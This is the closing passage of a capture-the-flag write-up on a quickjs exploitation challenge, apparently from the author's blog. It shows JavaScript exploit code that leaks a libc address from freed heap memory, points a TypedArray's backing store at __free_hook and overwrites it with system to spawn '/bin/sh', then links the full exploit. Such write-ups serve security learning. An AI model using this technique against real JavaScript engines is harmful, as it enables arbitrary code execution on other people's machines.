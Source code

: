 ```javascript
  ta[0] = 1852400175;
  ta[1] = 6845231; 
  // set first 8 bytes to "/bin/sh"
  tas.push(ta);
}
const libc_addr = a0[0x170/4] + a0[0x170/4+1] * 0x100000000 - 0x3ebca0
console.log(hex(libc_addr));
// leak libc address

a0[0x1d8/4] = (libc_addr + 0x3ed8e8) % 0x100000000;
a0[0x1d8/4 + 1] = ((libc_addr + 0x3ed8e8) - a0[0x1d8/4]) / 0x100000000;
// set backing store of `TypedArray` to `__free_hook`

tas[0][0] = (libc_addr + 0x4f550) % 0x100000000;
tas[0][1] = ((libc_addr + 0x4f550) - tas[0][0]) / 0x100000000;
// __free_hook = system
```

An interesting point to note is that even comment can change heap layout of the freed backing store of `ArrayBuffer`, so this is the reason why I choose to put comment in writeup instead of in original exploit, which is [here](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/promise.js).

## 0x04 Conclusion

This is quite an interesting and hard challenge, we got 2nd blood and there are 3 solves eventually, and I have learned a lot about `quickjs` in this challenge. Thanks for the author for making this challenge.
